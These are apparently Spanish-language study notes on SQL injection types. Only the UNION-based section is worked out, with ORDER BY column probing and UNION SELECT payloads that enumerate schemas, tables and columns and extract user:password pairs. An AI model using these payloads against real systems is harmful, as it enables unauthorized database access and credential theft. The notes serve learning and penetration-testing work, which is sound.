 ## SQL Injection

### Indice
- [Tipos y funcionamiento general](#como)
- #### IN BAND
  *   [Union](#union)
  *   [Error](#error)
- #### BLIND
  *   [Boolean](#boolean)
  *   [Time](#tine)
- #### OUT OF BAND
  *   [Out of band](#out)

<a name="como"></a>
## Tipos y funcionamiento
Tenemos 3 tipos:
* IN BAND
  Es la que vemos la respuesta de la base de datos en la respuesta del servidor. Es la mas sencilla de todas. tendriamos de tipo UNION y ERROR.

* BLIND
  No veriamos la respuesta de la base de datos en ninguna respuesta del servidor, y tendriamos de tipo BOOLEAN y tipo TIME

* OUT OF BAND

## IN BAND

<a name="union"></a>
### Union
Hay que tener en cuenta que cuando realizamos la instruccion UNION entre dos SELECT, ambos select deben tener el mismo numero de columnas. asi que lo primero es determinar el numero de columnas de la query que esta corriendo en el servidor.  
se puede hacer con un order by, ejemplo:  

empezamos con un order by 1, luego con un order by 2, y asi hasta que de error. cuando de error por ejemplo en el order by 4, pues sabemos que hay 3 columnas. 
```
' ORDER BY 1
' ORDER BY 2
' ORDER BY 3
' ...
```
Una vez determinado la cantidad de columnas de la query, vamos a investigar en la base de datos:  

suponiendo que tiene 3 columnas, ejecutamos la siguiente sentencia:  
```
'UNION SELECT schema_name, null,null FROM information_schema.schemata-- -
```
suponemos que encontramos las siguentes bases de datos:
* information_schema
* perfomance_schema
* mysql
* webserver

ahora vamos a indagar en webserver:  
```
'UNION SELECT table_name,null,null FROM information_schema.tables WHERE table_schema="webserver"-- -
```
suponemos que encontramos las siguientes tablas:  

* users
* books
* images
vamos a indagar en users:
```
'UNION SELECT column_name,null,null FROM information_schema.columns WHERE table_name="users" and table_schema="webserver"-- -
```

y vemos que tiene las columnas:
* id
* user
* password
ahora para extraer esos datos es tan sencillo como:
```
'UNION SELECT CONCAT(user,0x3a,password),null,null FROM users WHERE table_schema="webserver"-- - 
```
APUNTES:  

- el concat no es siempre necesario
- 0x3a en hexadecimal significa los dos puntos ":"
- el where no deberia ser necesario en caso de usuarios y claves xq ya la web está preparada para consultar en esa base de datos
